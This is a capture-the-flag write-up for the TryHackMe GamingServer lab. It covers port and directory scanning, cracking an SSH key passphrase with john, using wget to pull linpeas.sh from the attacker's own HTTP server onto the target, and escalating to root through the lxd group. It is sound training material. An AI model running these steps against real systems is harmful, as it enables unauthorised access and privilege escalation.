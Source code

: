 # THM-GamingServer-Write-up

## Task 1

User flag

First, we will be doing `Nmap` scan.

Command:

`nmap -sV -sC -p- --open MACHINE_IP`

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/1f20dff3-7f74-4f43-82d9-7b1845a64b70)

We can see there are 2 open ports

PORT 22 - SSH

PORT 80 - HTTP

Next, we will be using the tool `Gobuster` to check for any web directories.

Command:

gobuster dir -u 10.10.235.141 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/e549205a-0d17-4fed-9433-ef580570913e)

We can see there are 2 interesting directories, checking both directories, uploads has files and the secret has a RSA ID.

Uploads has some interesting files

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/b90cbd72-e36d-4d69-9856-4f4fdadd4f99)

We will download all the files as the dict.lst, looks like a password list that we can use to bruteforce and the other files might have some files inside. 

I am trying to find any username or name but nothing I can find, I went back to the main page and check the page source and see a note.

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/79fe8390-4706-4f59-b7be-fdd3c67f72f1)

Now we got a name, password list, and RSA key, I think if I try to login to SSH it will ask for a passphrase, we will use a tool called `ssh2john` to retrieve the hash.
Command:

`./ssh2john.py secretKey > hash.txt`

And we will use the tool `john` to decrypt it and get the passphrase.

Command:

`john --wordlist=dict.lst hash.txt`

and we got a password/passphase!

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/8e8dbeca-9339-4716-a601-ab5c434dd9a8)

We will now try to SSH using the **john** username, RSA key and the passphrase.

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/2d127d6c-c095-4604-9d8d-52d57e2bdefd)

We are in.

And now, we can retrieve the first flag.

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/dde0173b-fe9d-4d02-a169-b8f087364b3d)

## Task 2

Escalate our privilege and retrieve the root flag

I tried running `sudo -l` but it ask for password, which we do not have, we will use a tool called `linpeas.sh`, we will move to tmp directory. 

And now open a new terminal tab and we will open a http server to our machine.

Command:

`python -m http.server`

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/32b0155f-ccf9-4871-bdca-f54fe3924c35)

We will go back to the SSH and we will do a `wget` command, to get the linpeas.sh tool.

Command:

`wget http://MACHINE_IP:8000/linpeas.sh`

Once we got the `linpeas.sh` tool, we will change the permission of the file.

Command:

`chmod 700 linpeas.sh`

And we will run it using command `./linpeas.sh`.

Checking the result, I noticed that the user john is part of lxd group.

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/7ef71166-8626-4ebd-945d-a713d74c9842)

We will download a tool called [build-alpine](https://github.com/saghul/lxd-alpine-builder?search=1) and build it to our machine and do another wget to our SSH connection.

By following this guide from Hacktricks site, https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

We can escalate ourself as root and retrieve the root flag.

![image](https://github.com/L43371/THM-GamingServer-Write-up/assets/129752764/781d5f5e-8eab-4540-ac56-39715519403b)



